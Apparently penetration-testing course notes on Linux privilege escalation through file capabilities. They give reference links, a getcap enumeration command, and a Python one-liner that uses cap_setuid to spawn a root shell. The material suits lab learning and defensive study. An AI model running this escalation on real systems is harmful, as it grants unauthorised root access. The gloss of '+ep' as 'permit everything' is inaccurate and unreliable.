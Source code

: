 
Linux Privilege Escalation using Capabilities - https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

SUID vs Capabilities - https://mn3m.info/posts/suid-vs-capabilities/

Linux Capabilities Privilege Escalation - https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099



```
TCM@debian:~$ getcap -r / 2>/dev/null
/usr/bin/python2.6 = cap_setuid+ep
```

The `+ep` means 'permit everything'.  While this works like SUID's, in order to find this, you'll use the `getcap` command listed in the code snippet above.

`/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`    - we can then use this command to pop ourselves a root shell.